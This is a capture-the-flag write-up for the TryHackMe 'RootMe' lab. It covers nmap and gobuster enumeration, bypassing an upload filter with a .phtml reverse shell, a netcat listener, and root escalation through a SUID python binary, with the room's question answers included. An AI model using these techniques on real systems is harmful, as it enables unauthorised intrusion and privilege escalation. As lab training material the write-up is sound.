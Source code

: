 <!--- 
 <p align="center">
  THM : RootMe<br>
  Difficulty : Easy<br>
  Room link : https://tryhackme.com/room/rrootme<br>
  <img src="https://i.imgur.com/JegKOYI.png">
</p>

## Summary

- [Nmap scan](#nmap-scan)
- [Website enumeration](#website-enumeration)
- [Bypassing upload filter](#bypassing-upload-filter)
- [Getting a shell](#getting-a-shell)
- [Privilege escalation](#privilege-escalation)
- [Conclusion](#conclusion)

## Nmap scan

Like always, let's use [nmap](https://nmap.org/) to find open ports on the target :  
```
┌──(attacker㉿AttackBox)-[~/Documents/TryHackMe/CTF/RootMe]
└─$ nmap 10.10.237.46 -A -p- -oN nmapResults.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-01 12:21 CEST
Nmap scan report for 10.10.237.46
Host is up (0.032s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.54 seconds
```

**Question : Scan the machine, how many ports are open ?**  
**Answer : 2**  

**Question : What version of Apache is running ?**  
**Answer : 2.4.29**  

**Question : What service is running on port 22 ?**  
**Answer : SSH**  

## Website enumeration

Let's use [Gobuster](https://github.com/OJ/gobuster) to find hidden directories on the website :  
```
┌──(attacker㉿AttackBox)-[~/Documents/TryHackMe/CTF/RootMe]
└─$ gobuster dir -u http://10.10.237.46/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.237.46/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/10/01 12:22:13 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.237.46/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.237.46/css/]    
/js                   (Status: 301) [Size: 309] [--> http://10.10.237.46/js/]     
/panel                (Status: 301) [Size: 312] [--> http://10.10.237.46/panel/]  
Progress: 6822 / 220561 (3.09%)
```

There is an upload directory, so there must be a way to upload files to the server. So maybe we can upload a reverse shell ?
If we go to the /panel directory, there is a form to upload files to the server :  
![](https://i.imgur.com/PmOc4NQ.png)  

**Question : What is the hidden directory ?**  
**Answer : /panel/**  

## Bypassing upload filter

If we try to upload the [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) file by Pentestmonkey using the upload form, we get an error :  
![](https://i.imgur.com/b1vQJGg.png)  

(I have already changed the IP address and the port in the php file. Don't forget to change it to your IP address and to change the listening port to the one you'll use)

It says that php files are not accepted. There must be a way to bypass the filter. So I just changed the extension of the file to `.phtml` and it worked :  
![](https://i.imgur.com/BL565xh.png)  

## Getting a shell

If we take a look at the /uploads directory we found earlier, we can see our uploaded reverse shell :  
![](https://i.imgur.com/8GL26Ka.png)  

We just need to start a listener on our machine :  
```
┌──(attacker@AttackBox)-[~]
└─$ nc -lnvp 4242
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4242
Ncat: Listening on 0.0.0.0:4242
```

And then navigate to our reverse shell, in my case it is `http://10.10.237.46/uploads/php-reverse-shell.phtml`. And if we take a look at our listener, we have a shell :  
```
Ncat: Connection from 10.10.237.46.
Ncat: Connection from 10.10.237.46:36942.
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:39:14 up 21 min,  0 users,  load average: 0.00, 0.01, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Let's do some simple enumeration.
```
$ whoami
www-data
$ ls /home
rootme
test
```

We are www-data and there is 2 user directories in /home. The user flag is located in /var/www :  
```
$ cd /var/www
$ ls  
html
user.txt
$ cat user.txt
THM{**************}
$
```

**Question : Find a form to upload and get a reverse shell, and find the flag.**  
**Answer : THM{*HIDDEN*}**

## Privilege escalation

Before looking for a way to escalate our privileges, let's stabilise our shell. First, let's use `python3 -c 'import pty; pty.spawn("/bin/bash")'` to get 
a more interactive shell. Then we can use `export TERM=xterm` to be able to use `clear`. And to fully stabilise our shell, we can use CTRL+Z to background our shell.
Then we use `stty -echo raw;fg`, and we have a fully stabilised shell !

Now, for the privilege escalation, we can use linPEAS.sh or just search manually. If we look for SUID binaries using `find / -perm -4000 2>/dev/null`, we 
find those binaries :  
```
www-data@rootme:/var/www$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

In the list, there is one binary that can be used for privilege escalation when it has the SUID bit set, it is /usr/bin/python.
If we search for python on [GTFOBins](https://gtfobins.github.io/), we can see that it is possible to spawn a root shell when the SUID bit is set on python :  
![](https://i.imgur.com/RnSBKWs.png)  

Let's use this command and see if we get a root shell :  
```
www-data@rootme:/var/www$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
```

We are root ! Now let's get the root flag, it is located in /root.
```
# cd /root
# ls
root.txt
# cat root.txt
THM{*****************}
```

**Question : Search for files with SUID premission, which file is weird ?**  
**Answer : /usr/bin/python**

**Question : root.txt**  
**Answer : THM{*HIDDEN*}**  

## Conclusion

In this room, we can learn how to bypass simple upload filters to get a reverse shell, and we can learn how to make simple privilege escalation. I think it's a very
good room for beginners. Thanks for this room !
